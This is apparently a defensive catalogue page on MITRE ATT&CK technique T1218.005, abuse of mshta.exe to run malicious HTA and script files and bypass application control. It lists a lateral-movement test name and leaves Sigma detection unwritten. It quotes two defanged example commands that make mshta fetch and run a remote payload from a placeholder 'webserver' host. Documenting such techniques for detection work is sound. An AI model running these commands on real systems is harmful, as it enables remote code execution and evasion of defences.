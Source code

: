 [back](../index.md)

Cover by sigma :x: 

# Attack: Mshta

 Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion

## technique
  - T1218.005

# Test : Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement

OS: ['windows']

Description:

 Executes an HTA Application using JScript script engine using local UNC path simulating lateral movement.

# Sigma

 So many other things to do...